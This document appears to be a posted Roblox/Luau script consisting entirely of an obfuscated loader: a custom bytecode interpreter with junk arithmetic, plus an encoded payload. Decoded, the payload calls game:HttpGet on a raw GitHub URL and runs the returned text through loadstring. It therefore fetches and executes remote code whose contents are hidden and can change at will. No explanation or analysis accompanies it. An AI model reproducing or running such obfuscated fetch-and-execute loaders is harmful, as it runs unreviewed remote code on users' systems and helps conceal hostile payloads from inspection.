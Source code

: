 do local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=getfenv or function()return _ENV;end;local v9=setmetatable;local v10=pcall;local v11=select;local v12=unpack or table.unpack;local v13=tonumber;local function v14(v15,v16)local v17=0;local v18;local v19;local v20;local v21;local v22;local v23;local v24;local v25;local v26;local v27;local v28;local v29;while true do if (v17==0) then v18=1;v19=nil;v15=v4(v3(v15,5),"..",function(v30)if (v1(v30,2)==79) then local v62=0;while true do if (v62==0) then v19=v0(v3(v30,1,1));return "";end end else local v63=v2(v0(v30,16));if v19 then local v72=v5(v63,v19);v19=nil;return v72;else return v63;end end end);v17=1;end if (v17==6) then v28=nil;function v28()local v38=0 -0;local v39;local v40;local v41;local v42;local v43;local v44;local v45;local v46;while true do if (v38==1) then v41=nil;v42=nil;v38=2;end if (v38~=4) then else while true do if (v39~=(8 -5)) then else v46=nil;while true do local v80=0 + 0;local v81;while true do if (v80==0) then v81=1165 -(336 + 829);while true do if (v81==(0 + 0)) then local v101=0 -0;local v102;while true do if (v101==(0 + 0)) then v102=0;while true do if (v102==(1 -0)) then v81=1 + 0;break;end if (v102~=0) then else local v121=0 -0;while true do if (v121~=(1116 -(386 + 730))) then else if (v40~=1) then else local v138=0 + 0;local v139;local v140;while true do if ((370 -(216 + 154))==v138) then v139=0;v140=nil;v138=1407 -(643 + 763);end if (v138==1) then while true do if (v139~=0) then else v140=0 -0;while true do if (v140==(118 -(41 + 76))) then v46={};v40=2 -0;break;end if (v140~=(1328 -(128 + 1200))) then else local v157=0;while true do if (v157==0) then v44={v41,v42,nil,v43};v45=v23();v157=1 + 0;end if (v157~=(1 + 0)) then else v140=1 -0;break;end end end end break;end end break;end end end if (v40~=3) then else local v141=794 -(773 + 21);local v142;while true do if (v141==0) then v142=0;while true do local v155=768 -(435 + 333);while true do if (v155~=(1591 -(445 + 1146))) then else if (v142~=(2 -1)) then else return v44;end if (v142==0) then local v158=1512 -(902 + 610);while true do if (v158==0) then local v162=1022 -(480 + 542);while true do if (v162==(563 -(253 + 309))) then v158=444 -(48 + 395);break;end if (v162==(805 -(506 + 299))) then for v173=1,v23() do v42[v173-1]=v28();end for v175=1 + 0,v23() do v43[v175]=v23();end v162=1;end end end if (v158~=(1687 -(1679 + 7))) then else v142=1;break;end end end break;end end end break;end end end v121=1166 -(443 + 722);end if (v121==1) then v102=1;break;end end end end break;end end end if (v81~=1) then else if (v40==(1250 -(889 + 359))) then local v103=1655 -(1125 + 530);while true do if (v103==(1 + 0)) then for v122=384 -(227 + 156),v23() do local v123=0 -0;local v124;local v125;while true do if (v123==1) then while true do if (v124~=(0 -0)) then else v125=v21();if (v20(v125,1 + 0,1 + 0)~=0) then else local v149=1995 -(537 + 1458);local v150;local v151;local v152;local v153;local v154;while true do if (v149==1) then v152=nil;v153=nil;v149=2;end if (v149~=(0 + 0)) then else v150=0 -0;v151=nil;v149=1 + 0;end if (v149==(1210 -(592 + 616))) then v154=nil;while true do if (v150~=(3 -1)) then else while true do if (v151~=(6 -4)) then else local v163=0;local v164;local v165;while true do if (v163~=(0 -0)) then else v164=0;v165=nil;v163=1 + 0;end if (v163==1) then while true do if (v164==(0 + 0)) then v165=859 -(345 + 514);while true do if (v165~=(355 -(166 + 188))) then else v151=3;break;end if (v165~=0) then else local v178=0 -0;local v179;while true do if (v178==0) then v179=0;while true do if (v179==1) then v165=312 -(228 + 83);break;end if (0==v179) then if (v20(v153,1 + 0,1 + 0)~=1) then else v154[2]=v46[v154[2 + 0]];end if (v20(v153,2,362 -(101 + 259))==1) then v154[3]=v46[v154[1504 -(658 + 843)]];end v179=1;end end break;end end end end break;end end break;end end end if (v151~=(858 -(636 + 219))) then else if (v20(v153,3,1925 -(995 + 927))==(4 -3)) then v154[15 -11]=v46[v154[4]];end v41[v122]=v154;break;end if (v151~=0) then else local v167=0 -0;local v168;while true do if (v167==(0 + 0)) then v168=0;while true do if (v168~=1) then else v151=2 -1;break;end if (v168==0) then local v177=0 -0;while true do if (v177==(854 -(73 + 781))) then local v180=0;while true do if (v180==1) then v177=169 -(20 + 148);break;end if ((0 + 0)~=v180) then else v152=v20(v125,1 + 1,3);v153=v20(v125,4,1661 -(978 + 677));v180=1;end end end if (v177~=(1 -0)) then else v168=1 -0;break;end end end end break;end end end if (v151~=(203 -(177 + 25))) then else local v169=0;local v170;local v171;while true do if (v169==1) then while true do if (v170~=0) then else v171=0;while true do if (v171==(0 + 0)) then local v181=0 + 0;while true do if (v181~=(0 -0)) then else v154={v22(),v22(),nil,nil};if (v152==(0 + 0)) then local v182=863 -(27 + 836);local v183;while true do if (v182==(0 + 0)) then v183=0;while true do if ((0 + 0)==v183) then v154[4 -1]=v22();v154[4]=v22();break;end end break;end end elseif (v152==1) then v154[3 -0]=v23();elseif (v152==2) then v154[1 + 2]=v23() -((7 -5)^16);elseif (v152==(5 -2)) then local v190=0;local v191;local v192;local v193;while true do if (v190==(683 -(281 + 402))) then v191=0;v192=nil;v190=1 + 0;end if (v190==(1 + 0)) then v193=nil;while true do if (v191~=1) then else while true do if (v192~=(0 + 0)) then else v193=1668 -(555 + 1113);while true do if (v193~=0) then else v154[3]=v23() -(2^(2 + 14));v154[4]=v22();break;end end break;end end break;end if (0==v191) then local v194=1604 -(937 + 667);while true do if (v194==1) then v191=1;break;end if (v194==(882 -(136 + 746))) then v192=1370 -(1222 + 148);v193=nil;v194=1 + 0;end end end end break;end end end v181=1;end if (v181~=1) then else v171=1;break;end end end if (v171==(1 + 0)) then v151=1 + 1;break;end end break;end end break;end if (0==v169) then v170=0;v171=nil;v169=1 + 0;end end end end break;end if (v150==(1932 -(940 + 992))) then local v159=0;while true do if (v159==(1 -0)) then v150=1 + 0;break;end if ((0 + 0)==v159) then v151=0 + 0;v152=nil;v159=3 -2;end end end if (v150~=(2 -1)) then else local v160=0 + 0;local v161;while true do if (v160==0) then v161=0;while true do if (v161==1) then v150=2 + 0;break;end if (v161~=0) then else v153=nil;v154=nil;v161=1 + 0;end end break;end end end end break;end end end break;end end break;end if (v123==0) then local v132=0;while true do if ((1458 -(989 + 468))~=v132) then else v123=1;break;end if (v132~=(0 -0)) then else v124=0;v125=nil;v132=1;end end end end end v40=3;break;end if (v103~=0) then else for v126=1,v45 do local v127=0;local v128;local v129;local v130;while true do if (v127==(0 + 0)) then v128=1999 -(55 + 1944);v129=nil;v127=1;end if (v127~=1) then else v130=nil;while true do if (v128==(1 -0)) then if (v129==1) then v130=v21()~=(1146 -(742 + 404));elseif (v129==(4 -2)) then v130=v24();elseif (v129~=3) then else v130=v25();end v46[v126]=v130;break;end if (v128==0) then local v147=0;while true do if (v147~=(1 -0)) then else v128=1;break;end if (0==v147) then v129=v21();v130=nil;v147=1;end end end end break;end end end v44[3]=v21();v103=1 + 0;end end end if (v40==0) then local v104=0;while true do if (v104==(1465 -(490 + 974))) then v43={};v40=1;break;end if (v104~=0) then else v41={};v42={};v104=1059 -(1012 + 46);end end end break;end end break;end end end break;end if (v39==0) then local v75=1596 -(289 + 1307);local v76;while true do if (v75==(1449 -(815 + 634))) then v76=0 -0;while true do if (v76~=(0 -0)) then else local v99=0;while true do if (v99==(1590 -(236 + 1353))) then v76=1;break;end if (v99~=0) then else v40=1539 -(1481 + 58);v41=nil;v99=1 -0;end end end if ((2 -1)~=v76) then else v39=1;break;end end break;end end end if (v39==(2 -1)) then local v77=0;local v78;while true do if (0==v77) then v78=0;while true do if (v78~=(1 + 0)) then else v39=2;break;end if ((0 + 0)==v78) then local v100=1545 -(416 + 1129);while true do if (0==v100) then v42=nil;v43=nil;v100=1;end if (v100==(1461 -(435 + 1025))) then v78=1 + 0;break;end end end end break;end end end if (v39==(1800 -(196 + 1602))) then local v79=371 -(74 + 297);while true do if (v79~=1) then else v39=3;break;end if (v79==(0 + 0)) then v44=nil;v45=nil;v79=1;end end end end break;end if (v38==0) then v39=0 + 0;v40=nil;v38=4 -3;end if (v38==(7 -5)) then v43=nil;v44=nil;v38=3;end if (v38==3) then v45=nil;v46=nil;v38=4;end end end v29=nil;v17=7;end if (v17==7) then function v29(v31,v32,v33)local v47=v31[1];local v48=v31[2];local v49=v31[3];return function(...)local v64=0;local v65;local v66;local v67;local v68;local v69;while true do if (v64==0) then v65=1;v66= -1;v64=1;end if (v64==3) then A,B=v27(v10(v69));if  not A[1] then local v82=v31[4][v65] or "?";error("Script error at ["   .. v82   .. "]:"   .. A[2]);else return v12(A,2,B);end break;end if (v64==2) then v69=nil;function v69()local v83=v47;local v84=Const;local v85=v48;local v86=v49;local v87=v27;local v88={};local v89={};local v90={};for v94=0 -0,v68 do if ((v94>=v86) or ((2283 -(27 + 56))<(1691 -(444 + (172 -50))))) then v88[v94-v86]=v67[v94 + 1 + 0];else v90[v94]=v67[v94 + (761 -(599 + 161))];end end local v91=(v68-v86) + (1 -0);local v92;local v93;while true do local v95=0;while true do if ((((1606 + 2911) -(1254 + 554))>=(3006 -((53 -28) + 738))) and (v95==(1578 -(1313 + 265)))) then local v98=(693 -(483 + 210)) -0;while true do if (((5182 -(370 + 372))>=(1987 -(412 + 67))) and (v98==(1 + 0))) then v95=1 + 0;break;end if (((0 -0)==v98) or ((2940 -1067)>=(12508 -7996))) then v92=v83[v65];v93=v92[927 -((1506 -783) + 203)];v98=(3 -2) -0;end end end if (((5278 -1537)>=(88 + 1256 + 148)) and (v95==(389 -(39 + 349)))) then if ((v93<=(506 -(447 + (126 -69)))) or ((4797 -(364 + 605))<=(3922 -(260 + 137)))) then if ((v93<=(0 + 0)) or (4367<=(278 + 2306))) then v90[v92[7 -5]]=v33[v92[6 -(919 -(500 + 416))]];elseif ((v93==(149 -(102 + 46))) or ((727 + 44)>(1411 + (7511 -4408)))) then v90[v92[2 + 0]]=v92[(8 + 1) -6];else local v107=0 -0;local v108;local v109;local v110;while true do if ((v107==0) or ((4375 -(1507 + 144))==4125)) then local v131=0 -0;while true do if (((0 -0)==v131) or (2054<=(2297 -(818 + 376)))) then v108=0 -0;v109=nil;v131=1 -0;end if ((v131==(606 -((1047 -681) + 239))) or ((10004 -6608)<=(4414 -1331))) then v107=2 -1;break;end end end if ((v107==((263 + 756) -(262 + 756))) or ((10540 -7196)>=(4746 -((921 -(36 + 558)) + (498 -(58 + 112)))))) then v110=nil;while true do if (((875 -(506 + 4))==(1060 -(545 + 150))) and (v108==(0 -0))) then local v133=0;while true do if ((v133==(0 -0)) or ((5782 -1355)<=(2905 -(1098 + (483 -256))))) then local v148=0 -0;while true do if (((1619 -(834 + 784))==v148) or ((5687 -(242 + (3405 -2480)))==(2069 -1301))) then v133=1 + 0;break;end if ((v148==(0 -0)) or ((890 + 373)==((1470 -969) + 69))) then v109=v92[(906 -540) -(315 + 49)];v110=v90[v92[3]];v148=1002 -(74 + 94 + 833);end end end if (((15057 -10415)>=(1528 -(702 + 236))) and ((2 -1)==v133)) then v108=3 -2;break;end end end if ((v108==(1 + 0)) or ((2485 + 1418)<=2732)) then v90[v109 + (1425 -(752 + 672))]=v110;v90[v109]=v110[v92[1885 -(429 + 314 + 1138)]];break;end end break;end end end elseif (((2531 -((256 -72) + 424))<(10 + 4848)) and (v93<=(719 -(396 + (1877 -(1441 + 117)))))) then if (((1717 + 1055)>(1833 -1388)) and (v93==3)) then do return;end else v90[v92[2 + 0]]();end elseif ((v93>(14 -9)) or ((4641 -(22 + 713))<(2448 -(127 + 178 + 155)))) then local v111=0 -0;local v112;local v113;while true do if ((((16288 -10331) -(977 + 826))>=((1877 -849) + 175)) and (v111==(0 + 0))) then v112=(1658 -(907 + 751)) -0;v113=nil;v111=1 + 0;end if (((611 + 474)<(4850 -(788 + 822))) and (v111==(1862 -(280 + 1581)))) then while true do if ((((0 -0) -0)==v112) or ((229 + 146)>(1781 + 27))) then v113=v92[7 -(15 -10)];v90[v113]=v90[v113](v12(v90,v113 + (3 -2),v66));break;end end break;end end else local v114=0 + 0;local v115;local v116;local v117;local v118;local v119;while true do if (((1692 + 786 + 807)<=(4172 -(312 + 377))) and (v114==(1 + 0))) then v117=nil;v118=nil;v114=4 -2;end if ((v114==(3 -1)) or ((411 -(105 + 67))==(3898 + 372))) then v119=nil;while true do if (((978 + (4982 -2714))<=(5727 -((1118 -(153 + 19)) + 221))) and (v115==(471 -(351 + 120)))) then v116=v92[2 -0];v117,v118=v87(v90[v116](v12(v90,v116 + ((7 -4) -2),v92[6 -(1491 -(410 + 1078))])));v115=3 -2;end if (((555 + 1981)<=(14336 -9578)) and (v115==(8 -6))) then for v143=v116,v66 do local v144=0 -0;local v145;while true do if (((3220 + 672)>=(379 + 131)) and (v144==(1816 -(1761 + 55)))) then v145=0 + 0;while true do if (((0 + 0)==v145) or ((3781 -(1269 + 150))<=(3050 -(332 + 386)))) then v119=v119 + (2 -1);v90[v143]=v117[v119];break;end end break;end end end break;end if (((1469 -426)>=(801 -(197 + 83))) and (v115==(1 + 0 + 0))) then local v137=0 -0;while true do if (((5625 -(66 + 1052))>=(1143 -(234 + (1002 -694)))) and (v137==(0 + 0))) then v66=(v118 + v116) -(1 -0);v119=0 + 0;v137=2 -1;end if (((236 + 260)==(429 + 67)) and (v137==(2 -1))) then v115=(4 -2) + 0;break;end end end end break;end if ((v114==(0 -0)) or ((2522 + 898)<=(3938 -(132 + (2066 -1476))))) then v115=0 + 0;v116=nil;v114=2 -1;end end end v65=v65 + (331 -((146 -66) + (808 -558)));break;end end end end v64=3;end if (v64==1) then v67={...};v68=v11("#",...) -1;v64=2;end end end;end return v29(v28(),{},v16)();end if (5==v17) then v26=v23;v27=nil;function v27(...)return {...},v11("#",...);end v17=6;end if (v17==1) then v20=nil;function v20(v34,v35,v36)if v36 then local v70=(v34/(2^(v35-1)))%((7 -5)^(((v36-(1 + (0 -0))) -(v35-(1906 -((3293 -(1818 + 98)) + 528)))) + 1 + 0));return v70-(v70%(1 + 0));else local v71=(1 + 1)^(v35-(2 -1));return (((v34%(v71 + v71))>=v71) and (3 -2)) or 0;end end v21=nil;v17=2;end if (v17==2) then function v21()local v50=v1(v15,v18,v18);v18=v18 + 1;return v50;end v22=nil;function v22()local v51,v52=v1(v15,v18,v18 + 2);v18=v18 + (4 -2);return (v52 * (165 + 91)) + v51;end v17=3;end if (v17==4) then function v24()local v53=v23();local v54=v23();return (( -((3082 -2052) -(81 + 920 + 27)) * v20(v54,78 -46)) + (2 -1)) * ((189 -(87 + 100))^(v20(v54,9 + 12,7 + 24) -1023)) * ((((v20(v54,(751 + 977) -(251 + 1476),7 + 13) * ((4 -2)^(1104 -(946 + 126)))) + v53)/((2 -0)^(98 -46))) + (1848 -(1653 + 194)));end v25=nil;function v25(v37)local v55=0 + 0;local v56;local v57;while true do if (v55==((3175 -(880 + 855)) -(472 + 968))) then v56=nil;if  not v37 then v37=v23();if (v37==(1052 -(553 + 499))) then return "";end end v55=1 + 0;end if (v55==(7 -4)) then return v6(v57);end if (v55==(920 -(814 + 104))) then v57={};for v73=1 + 0, #v56 do v57[v73]=v2(v1(v3(v56,v73,v73)));end v55=1067 -(899 + 165);end if (v55==(4 -3)) then v56=v3(v15,v18,(v18 + v37) -(2 -1));v18=v18 + v37;v55=4 -(2 -0);end end end v17=5;end if (v17==3) then v23=nil;function v23()local v58,v59,v60,v61=v1(v15,v18,v18 + (170 -(115 + 52)));v18=v18 + (11 -7);return (v61 * (2020081 + 14757135)) + (v60 * (65631 -(27 + 68))) + (v59 * (74 + 182)) + v58;end v24=nil;v17=4;end end end v14("LOL!043O00030A3O006C6F6164737472696E6703043O0067616D6503073O00482O747047657403413O00682O7470733A2O2F7261772E67697468756275736572636F6E74656E742E636F6D2F682O616879746973702O6F702F6461642F6D61696E2F524541444D452E6D6400083O00124O00013O00122O000100023O002002000100010003001201000300044O0005000100034O00065O00022O00043O000100012O00033O00017O00083O00023O00023O00023O00023O00023O00023O00023O00033O00",v8());end
